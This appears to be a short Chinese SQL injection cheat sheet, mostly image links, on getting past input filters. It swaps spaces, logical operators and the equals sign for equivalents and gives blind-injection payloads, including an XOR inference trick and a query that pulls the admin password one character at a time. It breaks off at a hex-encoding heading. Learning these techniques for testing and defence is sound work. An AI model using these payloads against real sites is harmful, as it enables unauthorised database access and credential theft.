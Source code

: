 ![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGj2vcAqeVThoQMpETVdLt28vEZlSkFSMCXEeXooaHdDDhLicvz6m6tZQw/640?wx_fmt=png&from=appmsg "")  
- ()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjXMtd9xYibFMVjMh8znwpHlvEK2ibKRnicfXTT6aH9RiaQbxBGexn3HI4yg/640?wx_fmt=png&from=appmsg "")  
- +  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjQWVicxmt4VxpymH6e1hUG10yeNx1aQqbrObWXZy2FiaKCjFT8ohYdb6Q/640?wx_fmt=png&from=appmsg "")  
- /**/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjgibJGljB6IqWTdgxcWIWGE3ovSfJNv7Eb3WPoic9icZlUSqT84Od6IjdA/640?wx_fmt=png&from=appmsg "")  
- 两个空格  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjJTt0rwdratF2LzBqdGQmfEvGOvXIJOdsUN56UkSvX8VeYKTMOKzSnA/640?wx_fmt=png&from=appmsg "")  
# or and xor not绕过  
- or = ||  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjWic0ia9lGGXGsdHd2iaA0Mbj0aEiaDfPRJ7fqqhUVNxw95icUNZqRZJxTSw/640?wx_fmt=png&from=appmsg "")  
- and = &&  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjR2P4IvCP0rF59NcIiabZYPbxwwHBNVlAyAgz8TjXZvUldvLODaIcdlw/640?wx_fmt=png&from=appmsg "")  
- xor =  ^ 		#异或,  
  
- 例如select * from test  where 1 XOR (SELECT SUBSTRING(database(),1,1)='t')  
  
- XOR 运算的特性：真 XOR 真 = 假，假 XOR 假 = 假，真 XOR 假 = 真  
- 攻击者通过构造如 1' XOR (条件) XOR '1'='0 的语句，利用页面返回差异（真/假状态）推断数据库信息  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGj6GBkN62Vkg3VASoC4hVVWXTibI7dVJ59fPGMg4W5Wvwyg3MaoEsM8gA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGj8ZmZsx0xia9N7Ajf0pxyMyTFtH4UX72xWp6jmNKoDcjBDfw3KEiaFtoQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjeP204tdGQRrELnlzz3gtrMfGlfMSqarTysZPxmfy3dSaIrC8ad2bqQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGj280vtZibfxictskjbBsPguNC07VSKibZG9OWyrbGYZpiaaETEqjibdgETzw/640?wx_fmt=png&from=appmsg "")  
- not = !	#取反  
  
- select * from test WHERE 1 AND NOT ((SELECT SUBSTR(password,1,1) FROM admin LIMIT 1) = 't')  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjewHiby5cWqYN64I7RNn0lhlQOAWRR5UTksqw6Cyp2E08bgekb0UhwCA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjdscoQGpXad6cvgicBibCw2pXTb7lNib9aXunrSWYhic9kl51iaRrPr9PNtw/640?wx_fmt=png&from=appmsg "")  
# 对等号=绕过  
- like：  
  
-  select * from test where test like "a%";  
  
-  select * from test where test like "admin";  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjHOZ0GDExSa1dFicX08uvj7vwsBhYeMY3M4Ol2ibZlYpicM7AXGNGTfx4w/640?wx_fmt=png&from=appmsg "")  
- regexp：select * from test where test REGEXP "admin";  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjCMOXL1JFUPxo6wUKE7viar56sKd5Iy8kE8SGN6RoTBTHIBscZ4GicYNg/640?wx_fmt=png&from=appmsg "")  
- 大小于号绕过：select * from test where test > "a" and test < "s"  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjE1vcAQ3ibTEG8DqasZGErWns95e4EqiczvAnfNbWgRKmngScCzfGAqgQ/640?wx_fmt=png&from=appmsg "")  
- <> 等价于 != ,所以在前面再加一个 ! 结果就是等号了：select * from test where !(test <> "admin");  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjCWExd2jtQcor145iahhLuqcRe3CpXc75SVtFYnC73de5gvScSMTHv6g/640?wx_fmt=png&from=appmsg "")  
# 对单引号绕过  
- 16进制绕过：  